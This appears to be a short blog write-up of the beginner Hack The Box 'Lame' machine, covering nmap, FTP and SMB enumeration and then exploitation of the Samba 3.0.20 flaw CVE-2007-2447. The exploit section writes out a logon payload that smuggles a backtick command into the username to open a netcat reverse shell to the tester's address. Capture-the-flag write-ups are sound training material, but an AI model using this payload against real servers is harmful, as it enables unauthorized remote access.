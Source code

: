 ```yaml
---
layout: post
title: Lame
date: 2024-07-17 10:00:00 -0400
---
```


Lame box is an easy challenge suitable for beginners. It involves discovering open ports like FTP and SMB using Nmap. A vulnerability in Samba 3.0.20-Debian allows for remote command execution, making it a straightforward introduction to penetration testing.
# Recon

## nmap

Discovered some open ports.
![[Lame_image_1.png]]
Scan ports 21 (FTP), 22 (SSH), 139 (NetBIOS), 445 (SMB), and 3632, perform version detection and default script scanning.
![[Lame_image_2.png]]
## FTP - TCP 21
Anonymous login but empty.
![[Pasted image 20240623021419.png]]
## SMB - TCP 445
One accessible share.
![[Lame_image_3.png]]
Nothing Important
![[Pasted image 20240623021705.png]]

# Exploit
Samba 3.0.20-Debian is vulnerable to RCE.
CVE: https://nvd.nist.gov/vuln/detail/CVE-2007-2447

Connect to the smb share:
```
smbclient //10.129.101.202/tmp
```
Enter command to pop a shell:
```
logon "/=`nc 10.10.14.151 1337 -e /bin/sh`"
```

Root
![[tmp1719122533136_Lame_image_1.png]]

